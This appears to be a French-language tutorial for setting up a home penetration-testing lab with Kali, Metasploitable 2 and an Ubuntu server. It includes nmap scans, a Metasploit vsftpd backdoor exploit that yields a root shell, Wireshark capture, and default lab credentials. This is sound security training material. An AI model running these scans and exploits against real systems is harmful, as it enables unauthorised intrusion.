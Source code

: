 #### B. Metasploitable 2 (Cible vulnérable)

1. Télécharge : https://sourceforge.net/projects/metasploitable/
2. Importe dans VirtualBox
3. Configure l'IP : `192.168.100.20`
4. Login : `msfadmin` / `msfadmin`

#### C. Ubuntu Server (Serveur)

1. Télécharge : https://ubuntu.com/download/server
2. Crée une VM (RAM: 2GB, Disque: 20GB)
3. Installe LAMP stack :
   ```bash
   sudo apt install apache2 mysql-server php
   ```
4. Configure l'IP : `192.168.100.30`

**Durée totale** : 1-2 heures

---

## 🎯 Tes 3 premiers tests

### ✅ TEST 1 : Scanner le réseau (5 min)

**Sur Kali** :
```bash
# Découvrir les machines
nmap -sn 192.168.100.0/24

# Scanner Metasploitable
nmap -sV 192.168.100.20
```

**Résultat attendu** : Liste des ports ouverts (21, 22, 23, 80, 139, 445, 3306...)

---

### ✅ TEST 2 : Exploiter une vulnérabilité (10 min)

**Sur Kali** :
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.100.20
exploit
```

**Résultat attendu** : Shell root sur Metasploitable 🎉

---

### ✅ TEST 3 : Capturer du trafic (10 min)

**Sur Kali** :
```bash
# Démarrer Wireshark
sudo wireshark

# Sélectionner l'interface réseau
# Filtre : http

# Générer du trafic
curl http://192.168.100.20
```
